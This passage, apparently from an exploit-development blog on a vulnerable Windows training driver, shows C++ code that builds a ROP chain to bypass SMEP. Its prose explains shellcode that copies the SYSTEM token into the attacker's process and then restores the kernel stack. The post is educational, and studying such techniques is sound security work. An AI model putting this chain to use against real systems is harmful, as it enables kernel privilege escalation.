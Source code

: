 ```cpp
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(win32kBase + MOV_R8_TO_RDX);
    // The gadgets contains "add rsp, 0x28" so the following is junk
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MOV_RAX_PTR_RAX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MOV_RAX_TO_R8);
    // The gadgets contains "add rsp, 0x28" so the following is junk
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MOV_R8_TO_RCX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MOV_FOUR_RAX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + SUB_RCX_RAX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(win32kBase + MOV_RCX_TO_RAX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(win32kBase + MOV_RAX_TO_POINTER_RDX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + WBINVD_GADGET);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(shellcode);
```

<br />

## Stack-restoring shellcode
So we exploited the vulnerability, altered the stack pointer to point at our fake stack, which bypassed SMEP and called our shellcode.  
The shellcode copied the SYSTEM token to our process' token and all is good. But we want to continue normal kernel execution!  
That requires us to restore the stack pointer that went into oblivion the moment we ran our stack pivot gadget (`mov esp, 0x8bff9590`).  
So what can we do?  

Similar to my last blog post, we can utilize a [stack-searching method](https://kristal-g.github.io/2021/02/07/HEVD_StackOverflowGS_Windows_10_RS5_x64.html#:~:text=The%20plan%20is%20this) to calculate what `rsp` was when we first triggered the vulnerability.  
In contrast to the method I outlined in that post, we don't have an arbitrary read primitive now. That's OK; it just means we'll do it all in the shellcode.  
Thus, the full plan is:
1. Before triggering the vulnerability, we query our kernelmode stack starting address
2. Pass that stack address to our shellcode
3. Inside the shellcode - search the stack for the IOCTL number to use as an anchor
4. Calculate `rsp` value according to that IOCTL number's address
  
Stage 1 is easy - we'll again use a method from Sam Brown's (sam-b) [awesome repository](https://github.com/sam-b/windows_kernel_address_leaks) for kernel address leaks.  
Stage 2 - put it in our fake stack and pop it out in the shellcode:
```cpp
*(QWORD*)(stackBuffer + index++) = (QWORD)(stackLimit);
```
